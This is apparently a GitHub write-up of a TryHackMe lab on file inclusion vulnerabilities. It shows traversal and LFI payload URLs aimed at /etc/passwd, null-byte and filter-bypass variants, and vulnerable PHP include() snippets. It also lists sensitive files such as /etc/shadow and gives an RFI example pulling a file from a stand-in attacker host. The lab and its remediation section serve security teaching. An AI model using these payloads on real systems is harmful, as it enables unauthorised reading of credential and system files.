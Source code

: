 # 🚨 File Inclusion Vulnerabilities 🚨

## 📌 Task 1: Introduction

### 🧐 What is File Inclusion?

File inclusion vulnerabilities allow attackers to access unauthorized files on a server due to improper input validation. Main types:

* 🔹 **Local File Inclusion (LFI)**
* 🔹 **Remote File Inclusion (RFI)**
* 🔹 **Directory Traversal**

### 🛠️ How File Inclusion Occurs:

* Directly using user-controlled input in file handling functions without validation.

### ⚠️ Risks:

* 🔓 Sensitive data leakage
* 💻 Remote Command Execution (RCE)

### 🌐 URL Breakdown

![URL Breakdown](https://github.com/user-attachments/assets/a25027b5-fc86-4bab-babe-655a4f2322bb)

### 📑 Example Scenario

![Example Scenario](https://github.com/user-attachments/assets/8fef0c16-076f-48b3-a315-89e822508a89)

---

## 📌 Task 2: Deploy the VM

* 📥 Deploy the provided VM.
* 🌐 Access via TryHackMe network or AttackBox:

![VM Deployment](https://github.com/user-attachments/assets/43085e65-4553-481f-8951-40cc56568287)

---

## 📌 Task 3: Path Traversal

Directory traversal exploits let attackers access files outside the web root by URL manipulation.

### 🔍 Exploitation Examples

**Linux Example:**

```
http://webapp.thm/get.php?file=../../../../etc/passwd
```

**Windows Example:**

```
http://webapp.thm/get.php?file=../../../../windows/win.ini
```

### 📈 Visualization

**Attack Process**

![Path Traversal Attack](https://github.com/user-attachments/assets/0e6eb5f4-3142-4507-bd6f-1302c9bf4142)

**Directory Traversal Illustration**

![Directory Traversal](https://github.com/user-attachments/assets/1d60c63e-9cef-4e0c-9356-c6b950d85f13)

**Final Outcome**

![Final Outcome](https://github.com/user-attachments/assets/5b9ad3e9-ec92-44b9-a761-5d9871730a6e)

### 📋 Common Files for Exploitation:

| File Path                     | Description             |
| ----------------------------- | ----------------------- |
| `/etc/passwd`                 | System user information |
| `/etc/shadow`                 | User passwords          |
| `/root/.bash_history`         | Root command history    |
| `/var/log/apache2/access.log` | Apache server logs      |
| `C:\boot.ini`                 | Windows boot options    |

---

## 📌 Task 4: Local File Inclusion (LFI)

LFI occurs with improper use of file handling functions like `include`, `require`, etc.

### ⚙️ PHP Examples:

```php
include($_GET["lang"]);
```

**Exploitation:**

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

### 📂 Directory Specified Scenario:

```php
include("languages/". $_GET['lang']);
```

**Payload:**

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

---

## 📌 Task 5: Advanced LFI Techniques

### 1️⃣ Error Message Analysis

Analyze errors for path disclosure.

**Payload:**

```
http://webapp.thm/index.php?lang=../../../../etc/passwd%00
```

### 2️⃣ Filter Bypass

Use Null Byte (`%00`) or current directory (`/.`).

**Payload:**

```
http://webapp.thm/index.php?lang=/etc/passwd%00
```

### 3️⃣ Traversal Filter Bypass

Repeated patterns bypass:

```
http://webapp.thm/index.php?lang=....//....//....//etc/passwd
```

![Filter Bypass](https://github.com/user-attachments/assets/1dbd7386-91b7-47ec-bdb5-590b7c8a3dd5)

### 4️⃣ Directory Enforcement Bypass

Include directory in payload:

```
http://webapp.thm/index.php?lang=languages/../../../../etc/passwd
```

---

## 📌 Task 6: Remote File Inclusion (RFI)

RFI executes remotely hosted files. Requirements:

* `allow_url_fopen` in PHP set to `on`

### 🚩 Exploitation Example:

1. 🖥️ Malicious file (`http://attacker.thm/cmd.txt`):

```php
<?php echo "Hello THM"; ?>
```

2. 🌐 Inclusion via URL:

```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
```

![RFI Attack Illustration](https://github.com/user-attachments/assets/5774be06-8423-4696-b299-910d6b00808f)

---

## 📌 Task 7: Remediation

### 🛡️ Best Practices:

* ✅ Keep software updated
* ✅ Disable PHP error display
* ✅ Use Web Application Firewall (WAF)
* ✅ Disable unnecessary PHP options (`allow_url_fopen`, `allow_url_include`)
* ✅ Validate and sanitize inputs
* ✅ Whitelist/blacklist file access

---

## 📌 Task 8: Challenge

### 🧑‍💻 Testing Steps:

1. 🎯 Identify entry points
2. ✅ Test valid inputs
3. ❌ Test invalid inputs and special characters
4. 🔧 Utilize browser and Burp Suite tools
5. 🖥️ Analyze error messages
6. 🛠️ Determine filters and validation
7. 🎯 Craft payloads for sensitive file access

🔗 **Challenge Access:**

[http://MACHINE\_IP/challenges/index.php](http://MACHINE_IP/challenges/index.php)

🎉 **Happy Hacking!** 🎉
